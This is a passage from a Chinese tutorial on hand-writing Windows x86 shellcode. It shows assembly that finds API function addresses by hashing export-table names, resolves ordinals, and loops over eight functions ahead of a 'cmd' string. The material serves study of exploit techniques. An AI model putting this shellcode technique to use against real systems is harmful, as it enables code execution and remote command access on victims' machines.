 ```asm

```

然后在循环取出名字后，计算名字的hash摘要值：

```x86asm

next_function_loop:
	inc edi
	mov esi, [ebx + edi * 4]	;esi = offset of current function name
	add esi, ebp				;esi = absolute address of function name
	cdq				;clear edx

hash_loop:
	lodsb			;load next char into al and esi ++
	xor al, 0x71	
	sub dl, al
	cmp al, 0x71	;若相同说明al原本为0
	jne hash_loop
```

之后比较导出表中每一个函数名 hash 后得到的摘要，从而找出它们的地址。我们使用的shellcode 装载程序假定 eax 指向 shellcode 的起始地址，且 shellcode 的起始正是存放所需函数hash 摘要的地方，但在 pushad 指令保存所有寄存器状态之后，eax 将被改写，而 eax 原值存储在栈中 esp+0x1c 的地方，所以需要把计算出的 hash 值与 esp+0x1c 所指的 hash 值相比较。

```x86asm
cmp dl, [ esp + 01c]
jnz next_function_loop
```

当跳出next_function_loop时，用edi做计数器，里面记录的循环次数就是找到函数的偏移位置，即ordinal。接着就找这个函数的地址：

```x86asm
mov ebx, [ecx + 0x24]  ;ebx = relative offset of ordinals table
add ebx, ebp           ;ebx = absolute addr of ordinals table
mov di, [ebx + 2 * edi] ;di = ordinal number of matched function
mov ebx, [ecx + 0x1c] ;ebx = relative offset of address table
add ebx, ebp ;ebx = absolute addr of address table
add ebp, [ebx + 4 * edi] ;add to ebp (base addr of module) the
 ;relative offset of matched function 

```

现在 ebp 中已经存放着所需的函数地址了，然而我们希望这个地址由 edi 中的指针引用。可以用 stosd 把地址存到那里，但是需要首先恢复 edi 的原始值。下面这几行代码虽然看起来有点不合常理，但却能够完成这个任务，并且只需要 4 个字节。

```x86asm
xchg eax, ebp ;move func addr into eax
pop edi ;edi is last onto stack in pushad
stosd ;write function addr to [edi]
push edi ;restore the stack ready for popad 
```

现在已经能够完成一个函数名 hash 对应的入口地址的解析了。我们需要保存寄存器状态，然后继续循环执行，直到所需的 8 个函数名的 hash 都被解析出来。回忆一下前面是怎样存放这些函数地址的？对了，最后一个函数地址将准确地把存放函数名 hash 的地方覆盖掉（后面是“cmd”字符串），所以我们可以通过判断 esi 和 edi 两个寄存器中指针的相同来结束用于 API定位的循环体。

```
popad
cmp esi, edi
jne find_lib_functions 
```
